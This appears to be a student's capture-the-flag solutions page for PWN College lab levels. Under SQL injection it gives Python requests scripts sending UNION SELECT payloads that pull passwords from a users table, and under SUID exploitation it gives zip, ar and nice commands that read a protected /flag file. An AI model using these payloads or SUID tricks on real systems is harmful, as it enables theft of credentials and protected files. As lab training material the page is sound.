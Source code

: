 # LAB-2 SQL Injection and SUID Exploitation from PWN College

## [Press here to return to HOME](index.md)

## SQL Injection

### Level 3 
```bash
curl "http://challenge.localhost:80/?user=1"
```

### Level 5 
```python 
import requests 

payload = { "query": '" UNION SELECT password FROM users --' } 

response = requests.post("http://challenge.localhost/", params=payload) 
print(response.text)
```

### Level 7
```python 
import requests

payload = {"username": "flag", "password": '" UNION SELECT password, * FROM users --'} 

response = requests.post("http://challenge.localhost/", payload) 
print(response.text)    
```

## SUID Exploitation

### Level 19
```bash
zip flag.zip /flag

unzip -c flag.zip
```

### Level 21
```bash
ar r flag.a /flag

ar p flag.a
```

### Level 27
```bash 
nice cat /flag 
```
